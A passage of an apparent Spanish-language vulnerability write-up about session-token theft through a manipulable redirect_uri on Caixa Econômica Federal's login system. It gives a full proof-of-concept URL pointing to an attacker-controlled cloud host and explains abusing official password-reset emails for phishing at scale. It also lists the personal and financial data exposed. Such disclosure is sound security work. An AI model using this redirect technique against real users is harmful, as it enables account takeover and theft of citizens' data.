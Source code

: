 
Este código tiene la función de capturar y almacenar los tokens de sesión enviados a la URL "maliciosa" controlada por el atacante. Además de capturar el Token de Sesión y almacenarlo en un archivo de registro, este script redirige nuevamente al usuario, esta vez hacia la URL legítima, asegurando así una sesión genuina en el sistema de Caixa Federal Econômica. Esto hace que un usuario común difícilmente sospeche que ha sido víctima de un engaño. La URL de la prueba de concepto se estructura de la siguiente manera:

https://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://ec2-54-84-102-177.compute-1.amazonaws.com/

El resultado obtenido se puede observar en esta grabación:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/l2ZpggLSz_o" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

La superficie de ataque en este escenario está restringida, ya que requiere que el usuario acceda a la URL por sí mismo (mediante phishing o ingeniería social).

El correo electrónico es enviado por un sistema oficial de la Caixa Econômica Federal. Sin embargo, al observar el link, podemos notar que la URL está "infectada" con el link bajo control del atacante. Al acceder al link y completar la redefinición de contraseña, el redireccionamiento aún ocurre, lo que resulta en la filtración del Token de Sesión.

Con esto, un atacante puede utilizar este mecanismo para enviar correos electrónicos solicitando la redefinición de contraseña en nombre de la Caixa Econômica Federal, otorgando mayor credibilidad al link malicioso. Este ataque puede realizarse a gran escala, ya que solo se necesita el CPF del objetivo para llevarlo a cabo.

---

### Impacto

Si esta vulnerabilidad fuera explotada, un atacante podría visualizar información confidencial del usuario, como se muestra a continuación:

![Datos Confidenciales del Usuario de Caixa Federal](/images/publications/caixa-account-takeover/confidential-data-user.png)

- Nombre completo, CPF, fecha y hora del último acceso;

-

![Datos Confidenciales del FGTS de Caixa Federal](/images/publications/caixa-account-takeover/confidential-data-fgts.png)

-

- Nombre completo, número del PIS, empresa contratante, número de la cartera de trabajo, cuenta FGTS, fecha de admisión, saldo en cuenta y los valores depositados en cada mes durante el período de trabajo en la empresa;

![Dirección Confidencial del Usuario de Caixa Federal](/images/publications/caixa-account-takeover/confidential-user-andress.png)

- Dirección completa del usuario (además, es posible editar estos datos, ya que no es necesario utilizar una contraseña);

---

